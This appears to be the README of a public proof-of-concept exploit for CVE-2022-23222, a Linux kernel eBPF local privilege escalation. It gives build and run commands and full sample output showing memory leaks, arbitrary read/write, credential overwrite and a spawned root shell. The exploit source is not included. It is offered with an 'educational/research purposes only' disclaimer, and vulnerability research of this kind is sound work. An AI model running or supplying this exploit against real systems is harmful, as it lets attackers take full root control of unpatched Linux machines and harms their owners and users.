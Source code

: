 # CVE-2022-23222
## from [@tr3ee](https://github.com/tr3ee/CVE-2022-23222)
----
Chinese writeup: https://tr3e.ee/posts/cve-2022-23222-linux-kernel-ebpf-lpe.txt

For educational/research purposes only. Use at your own risk.

## Build & Run

```bash
$ make
cc -I include -static -w -o exploit exploit.c
$ ./exploit 
[*] phase(1/8) 'create bpf map(s)' running
[+] phase(1/8) 'create bpf map(s)' done
[*] phase(2/8) 'do some leak' running
[+] phase(2/8) 'do some leak' done
[*] phase(3/8) 'prepare arbitrary rw' running
[+] phase(3/8) 'prepare arbitrary rw' done
[*] phase(4/8) 'spawn processes' running
[+] phase(4/8) 'spawn processes' done
[*] phase(5/8) 'find cred (slow)' running
[+] phase(5/8) 'find cred (slow)' done
[*] phase(6/8) 'overwrite cred' running
[+] phase(6/8) 'overwrite cred' done
[*] phase(7/8) 'spawn root shell' running
[+] Enjoy root!
# id
uid=0(root) gid=0(root) groups=65534(nobody)
# exit
[+] phase(7/8) 'spawn root shell' done
[*] phase(8/8) 'clean up the mess' running
[+] phase(8/8) 'clean up the mess' done
```